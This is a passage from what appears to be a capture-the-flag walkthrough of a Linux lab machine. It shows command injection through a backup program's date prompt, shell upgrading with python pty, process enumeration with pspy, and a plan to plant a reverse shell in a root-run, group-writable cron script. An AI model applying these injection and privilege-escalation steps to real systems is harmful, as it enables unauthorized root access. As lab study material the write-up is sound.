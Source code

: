 ```console
Reading stats..
Enter name of person backing up the data: gyles
Enter 'date' to timestamp the file: /bin/bash
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
python -c "import pty; pty.spawn('/bin/bash')"
ls
user.txt
python3 -c "import pty; pty.spawn('/bin/bash')"
gyles@TEAM:~$ ls
user.txt
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

On loading linpeas to the system found a cronjob running as root on the system <br />
So loaded `pspy64s`  on the system for further enumeration <br />
Found a main script running as root
```console
gyles@TEAM:/tmp$ ./pspy64s
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
ERROR: parsing events: possible inotify event overflow
done
2022/10/11 07:25:22 CMD: UID=0    PID=99     |
2022/10/11 07:25:22 CMD: UID=1001 PID=9672   | ./pspy64s
2022/10/11 07:25:22 CMD: UID=1001 PID=9621   | /bin/bash
2022/10/11 07:25:22 CMD: UID=1001 PID=9620   | python3 -c import pty; pty.spawn('/bin/bash')
2022/10/11 07:25:22 CMD: UID=0    PID=9617   |
2022/10/11 07:25:22 CMD: UID=1001 PID=9607   | /bin/bash
<--snip-->
2022/10/11 07:26:01 CMD: UID=0    PID=9683   | /bin/bash /usr/local/bin/main_backup.sh
2022/10/11 07:26:01 CMD: UID=0    PID=9682   | /bin/bash /opt/admin_stuff/script.sh <-----crounhob
2022/10/11 07:26:01 CMD: UID=0    PID=9681   | /usr/sbin/CRON -f
2022/10/11 07:26:01 CMD: UID=0    PID=9685   | /bin/bash /usr/local/bin/main_backup.sh

```

On reading `/opt/admin_stuff/script.sh` found that the there are two more scripts running via this script
```console
gyles@TEAM:/tmp$ cat /opt/admin_stuff/script.sh
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh" <---------- 1
main_site="/usr/local/bin/main_backup.sh" <--------- 2
#Back ups the sites locally
$main_site
$dev_site

```
main_backup.sh has reading rights for gayle so edited that file and added a bash reverse shell to it
```console
gyles@TEAM:/tmp$ ls -l /usr/local/sbin/
total 4
-rwxr-xr-x 1 root root 64 Jan 17  2021 dev_backup.sh
gyles@TEAM:/tmp$ ls -l /usr/local/bin/
total 4
-rwxrwxr-x 1 root admin 109 Oct 11 07:01 main_backup.sh
gyles@TEAM:/tmp$ cat /usr/local/bin/main_backup.sh
```
